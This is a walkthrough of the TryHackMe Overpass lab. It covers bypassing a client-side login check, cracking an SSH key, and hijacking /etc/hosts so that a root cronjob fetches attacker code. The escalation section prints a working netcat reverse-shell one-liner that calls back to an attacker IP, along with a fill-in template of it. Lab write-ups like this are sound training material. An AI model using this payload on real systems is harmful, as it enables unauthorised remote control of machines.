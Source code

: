 ```yaml
---
title: "TryHackMe Overpass Walkthrough"
date: 2022-01-31 18:40:00 +0530
layout: post
categories: thm
tags: [thm]
toc: true
---
```


# Overpass Writeup
### From Tryhackme

![image](https://user-images.githubusercontent.com/56447720/152143895-b8522100-61fa-42e1-8abb-306b80561bd4.png)

## Port Scan

![image](https://user-images.githubusercontent.com/56447720/152144739-6ae3e614-a68d-4bd7-9eca-884fcdea459f.png)

## Directory Scan

![image](https://user-images.githubusercontent.com/56447720/152144710-e6bb61eb-a1b5-408d-8f2e-5b107eb93395.png)

## Web Exploitation

- After seeing all the directories, `/admin` was most intresting to me
- Looking at the source code I found some intresting `.js` files

![image](https://user-images.githubusercontent.com/56447720/152147048-d4bc52bb-70d6-4af0-92b3-fba0257ca596.png)

- `login.js`

![image](https://user-images.githubusercontent.com/56447720/152147124-ee118f84-0d94-45ae-879c-de24d58c099c.png)

- This piece of code has an vulnerability, it checks the response of the browser and if it doesn't incorrect credentials,
it redirect us to the `/admin` page

### get admin privilege

- Intercept login request with burp suite and change the response to get admin panel
- Right click on the reques and > `Do intercept > Request to this response`

- This is the respose we get

![image](https://user-images.githubusercontent.com/56447720/152158989-93c0e69f-9364-4bdb-a243-64e95de1ba45.png)

- Updated response

![image](https://user-images.githubusercontent.com/56447720/152159958-e3988a42-f46f-475d-be48-e5134413fb09.png)

- Admin homepage

![image](https://user-images.githubusercontent.com/56447720/152148206-19006b3b-36a2-45ea-a01b-b5238cf6dd15.png)


## User Shell

- we got username from admin panel, I've used john to crack the ssh password

![image](https://user-images.githubusercontent.com/56447720/152148911-efbb5b6e-b5af-4542-bb3e-376f175f869f.png)

- We successfully got a shell

![image](https://user-images.githubusercontent.com/56447720/152149341-ed01b623-5068-40aa-b12b-c30461039446.png)

## Root shell

- I've used python server to get `linpeas` into the machine

![image](https://user-images.githubusercontent.com/56447720/152151534-86421dbc-71e7-46f0-9c42-2be09fe27284.png)
![image](https://user-images.githubusercontent.com/56447720/152151754-b3fe921b-929d-4572-83c0-0bc6247d1c09.png)

- We have permission to write in `/etc/hosts`

![image](https://user-images.githubusercontent.com/56447720/152152218-a5b9d408-6b3a-4faa-8f50-a7cc36630dfe.png)

- There's a cronjob running on root service which basicallay uses curl and pipe it into bash
- We are going to change the content of `/etc/hosts` , adding our ip as `overpass.thm`

![image](https://user-images.githubusercontent.com/56447720/152152639-020becb3-8d74-4c13-a70d-5b2bdb1935e5.png)

- First create files in your localhost

![image](https://user-images.githubusercontent.com/56447720/152157538-02d62286-55f3-4714-9dd1-d0a77ce6c4fd.png)

- Add a payload in `buildscript.sh`

```bash
└─$ cat downloads/src/buildscript.sh 
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.1.250 4444 >/tmp/f
```
- Add your ip and port `[ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc (IP) (PORT) >/tmp/f ]`

- Start a python3 server

```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.120.231 - - [02/Feb/2022 18:17:05] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -

```

- Start netcat listener 
- Wait around 1 minute to get root shell

![image](https://user-images.githubusercontent.com/56447720/152157330-44f27329-9a6c-4b35-acb7-47c158726fdb.png)

![image](https://user-images.githubusercontent.com/56447720/152157784-02ccbdd4-69f3-4b10-a99e-9ae361faae07.png)


